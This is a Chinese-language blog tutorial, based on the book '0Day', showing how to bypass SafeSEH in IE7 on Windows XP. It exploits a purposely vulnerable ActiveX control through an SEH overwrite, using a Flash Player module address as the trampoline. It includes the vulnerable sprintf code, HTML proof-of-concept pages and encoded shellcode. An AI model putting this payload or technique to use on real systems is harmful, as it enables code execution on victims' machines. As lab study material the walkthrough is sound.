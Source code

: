 ```yaml
---
layout:		post
title:		利用Adobe Flash Player ActiveX控件绕过SafeS.E.H
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>控件版本: Adobe Flash ActiveX 9.0.124  
>说明: 这篇文参考自《0Day》, 因为"利用Adobe Flash Player ActiveX控件绕过SafeS.E.H"  
这节有一些小坑, 不注意可能会实验失败, 所以写了这篇文来一步一步越过这些坑。  
<!-- more -->


### 0x00 前期准备

新建一个MFC ActiveX控件, 添加一个test方法

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x00.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x01.png)

在test方法实现里添加代码

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x02.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x03.png)

```
#include <string.h>
#include <windows.h>

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("aaaa");//定位该函数的标记
	char dest[100];
	sprintf(dest,"%s",str);	
	int zero=0;
	__try
	{
	    zero=1/zero;
	}
	__except(MyException())
	{
	}
}
```

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x04.png)

如图设置好项目属性, 选择release版本, 禁用优化, 编译链接, 最后在cmd键入"Regsvr32 /path/to/activex.ocx"注册控件

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 45) {
s += "\u9090";
}
test.test(s);  
</script>  
</body>  
</html>
```

新建一个txt文本, 帖入以上代码, 更名为poc.html

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x05.png)

注意这里的"clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5", 在ActiveX工程里找到


### 0x01 分析栈布局

双击poc.html自动调用IE浏览器打开, 选择允许ActiveX控件

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x06.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x07.png)

来到这里, 用OllyDbg附加上去

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x08.png)

断下后选"E"找到VulnerAX_SEH.ocx, 点进去, 在printf("aaaa")下断运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x09.png)

断下后来到call sprintf, 跟随栈地址, 再往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0a.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0b.png)

可以看到数据已经copy到栈上, 起始地址0x01dcf4e4

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

View->SEH chain, 定位到最近的SE Handler 0x01dcf560, 0x01dcf560-0x01dcf4e4=124 byte

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

Plugins->OllyFindAddr->Overflow return address->Find CALL/JMP [EBP+N], 选择"L", 找到0x300b2d1c这个跳板

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0d.png)

修改poc.html

```
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u9090\u9090";
s+="\u2D1C\u300B";
```

再次打开, OD附加上去, 来到call sprintf再走一步, 现在SE Handler已经覆盖成跳板地址

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0e.png)

先在0x300b2d1c下断, 来到这里Shift+F9运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0f.png)

断下后跟进call, 可以看到这时回到了S.E.H结构

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x10.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x11.png)


### 0x02 exploit

SE Handler的跳板地址会干扰shellcode, 将shellcode整体放到下面, 用一个短跳跳过去

```
// junk(120 byte)+jmp short(2 byte)+junk(2 byte)+board(4 byte)+junk(8 byte)+payload(114 byte)
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u0EEB\u9090";		# 0xEB0E->jmp +14(相对于下一条指令地址+14 byte)
s+="\u2D1C\u300B";		# 跳板
s+="\u9090\u9090\u9090\u9090";		# junk
s+="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);
```

如上组织250 byte的shellcode, OD再次附加上去, 来到call sprintf往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x12.png)

F9直接运行, pwn~

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x13.png)